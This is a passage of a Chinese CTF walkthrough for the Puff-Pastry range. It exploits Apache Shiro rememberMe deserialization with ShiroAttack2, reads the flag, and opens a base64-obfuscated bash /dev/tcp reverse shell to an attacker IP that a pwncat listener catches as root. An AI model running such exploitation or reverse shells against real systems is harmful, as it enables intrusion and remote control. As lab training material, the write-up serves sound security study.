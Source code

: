 # Puff-Pastry

:::info

靶场项目地址 [CTF-Archives/Puff-Pastry](https://github.com/CTF-Archives/Puff-Pastry)

:::

严格意义上来说，环境对外开放端口就是 `8080`

## Shiro 攻击

看到请求包里面有 `Remenberme` 字段，很明显就是打 Shiro 反序列化

使用 [SummerSec/ShiroAttack2: shiro 反序列化漏洞综合利用, 包含（回显执行命令 / 注入内存马）修复原版中 NoCC 的问题 https://github.com/j1anFen/shiro_attack](https://github.com/SummerSec/ShiroAttack2) 直接利用

![img](img/image_20240759-105958.png)

## flag - Shiro

flag 文件位于 `/flag.txt`

![img](img/image_20240701-110116.png)

## Shiro 内网扫描

首先先反弹 shell

```bash title="Shiro"
# /bin/bash -i >& /dev/tcp/192.168.200.129/9999 0>&1
$ echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMjAwLjEyOS85OTk5IDA+JjE= | base64 -d > /tmp/shell.sh
$ chmod +x /tmp/shell.sh
$ ls -lh /tmp/shell.sh
-rwxr-xr-x 1 root root 50 Jul 25 03:04 /tmp/shell.sh
$ /bin/bash /tmp/shell.sh
```

即可收到回连的 shell

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[11:02:56] Welcome to pwncat 🐈!
[11:05:45] received connection from 192.168.200.2:34432
[11:05:45] 192.168.200.2:34432: registered new host w/ db
(local) pwncat$ back
(remote) root@31b77ed217da:/# whoami
root
```

从攻击机上下载 `fscan` 二进制文件，查看网段信息
